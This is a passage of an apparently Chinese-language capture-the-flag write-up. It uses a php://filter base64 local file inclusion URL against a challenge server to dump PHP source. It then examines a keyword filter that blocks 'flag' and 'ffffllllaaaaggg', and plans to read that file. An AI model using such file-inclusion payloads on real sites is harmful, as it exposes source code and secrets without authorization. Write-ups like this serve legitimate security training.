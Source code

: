 include "templates/index.html";

}

?>

继续读function文件

http://47.52.152.93:20000/user.php?page=php://filter/read=convert.base64-encode/resource=function

得到(代码只给出部分)

session_start();

require_once "config.php";

function Hacker()

{

Header("Location: hacker.php");

die();

}

function filter_directory()

{

$keywords = ["flag","manage","ffffllllaaaaggg"];

$uri = parse_url($_SERVER["REQUEST_URI"]);

parse_str($uri['query'], $query);

//    var_dump($query);

//    die();

foreach($keywords as $token)

{

foreach($query as $k => $v)

{

if (stristr($k, $token))

hacker();

if (stristr($v, $token))

hacker();

}

}

}

我们可以发现过滤$keywords = ["flag","manage","ffffllllaaaaggg"];

既然是keyword,那我们尝试一下读ffffllllaaaaggg文件
